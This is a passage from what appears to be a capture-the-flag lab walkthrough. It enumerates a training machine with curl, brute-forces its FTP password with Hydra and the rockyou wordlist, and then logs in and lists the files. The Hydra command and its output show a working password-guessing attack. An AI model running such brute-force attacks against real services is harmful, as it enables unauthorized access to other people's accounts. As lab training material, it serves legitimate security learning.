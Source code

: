 ```
root@ip-10-10-220-150:~# curl -L -A "C" http://10.10.34.109
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

The output swiftly made clear that the agent name of agent C is Chris.

After having enumerated the machine with curl it's time to brute ourselves into the FTP service. For that we can use a tool like Hydra, which is known to brute-force passwords across various services.

```
root@ip-10-10-220-150:~# hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.34.109
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-23 12:30:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.34.109:21/
[21][ftp] host: 10.10.34.109   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-23 12:31:27
```

Just as a reminder: 
- the *-l* flag is used to specify a single username for the brute-force attempt.
- the *-P* flag is used to provide a path to a password list that Hydra will utilize to attempt to crack the password for the specified username.

Having completed this brute force attack, we can see clear as day what chris's password is: crystal. We use that to our advantage to login to the FTP service. 

```
root@ip-10-10-220-150:~# ftp 10.10.34.109
Connected to 10.10.34.109.
220 (vsFTPd 3.0.3)
Name (10.10.34.109:root): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```
